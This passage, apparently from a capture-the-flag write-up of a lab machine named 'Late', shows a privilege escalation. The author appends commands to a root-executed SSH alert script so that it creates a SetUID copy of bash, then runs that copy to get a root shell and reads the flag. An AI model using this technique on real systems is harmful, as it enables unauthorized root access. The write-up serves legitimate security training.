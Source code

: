 To exploit this, I’ll use the following line to create a SetUID Bash executable:

```

svc_acc@late:~$ echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf"
cp /bin/bash /tmp/.0xdf
chmod 4755 /tmp/.0xdf
svc_acc@late:~$ echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf" >> /usr/local/sbin/ssh-alert.sh

```

Now I’ll log in over SSH as svc\_acc, and there’s `.0xdf` owned by root with the SetUID bit on:

```

svc_acc@late:~$ ls -l /tmp/.0xdf
-rwsr-xr-x 1 root root 1113504 Jul 25 21:12 /tmp/.0xdf

```

I’ll run with `-p` to not drop privileges and get a root shell:

```

svc_acc@late:~$ /tmp/.0xdf -p
.0xdf-4.4#

```

And read `root.txt`:

```

.0xdf-4.4# cat root.txt
f8f10a31************************

```

## Beyond Root

It’s always a good idea to use a root shell on a box to make sure you understand how the box is configured. Depending on your skill and experience, the level of understanding may vary, but there’s always something to learn.

In this video, I’ll walk through the basic configuration of the webserver, starting from NGINX, through Gunicorn and its service, then to the source files it runs, ending up at a Python Flask application.